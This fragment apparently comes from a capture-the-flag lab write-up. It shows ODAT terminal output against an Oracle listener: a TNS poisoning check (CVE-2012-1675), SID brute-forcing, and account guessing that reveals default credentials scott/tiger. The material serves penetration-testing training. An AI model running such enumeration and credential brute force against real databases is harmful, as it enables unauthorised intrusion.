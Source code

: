 ![ImgPlaceholder](screenshots/odat_password_found.png)


```
└─$ python3 ./odat.py all -s 10.10.10.82 -p 1521

[1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] The target is vulnerable to a remote TNS poisoning

[2] (10.10.10.82:1521): Searching valid SIDs
[2.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
[+] 'XE' is a valid SID. Continue...
[+] 'XEXDB' is a valid SID. Continue...                               
100% |########################################################################################| Time: 00:01:07 
[2.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521)
100% |########################################################################################| Time: 00:00:01 
[2.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521)
[+] 'XE' is a valid SID. Continue...
100% |########################################################################################| Time: 00:00:40 
[+] SIDs found on the 10.10.10.82:1521 server: XE,XEXDB

[3] (10.10.10.82:1521): Searching valid accounts on the XE SID
The login cis has already been tested at least once. What do you want to do:
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
c
[+] Valid credentials found: scott/tiger. Continue...
100% |########################################################################################| Time: 00:05:13 
[+] Accounts found on 10.10.10.82:1521/XE: 
scott/tiger
```
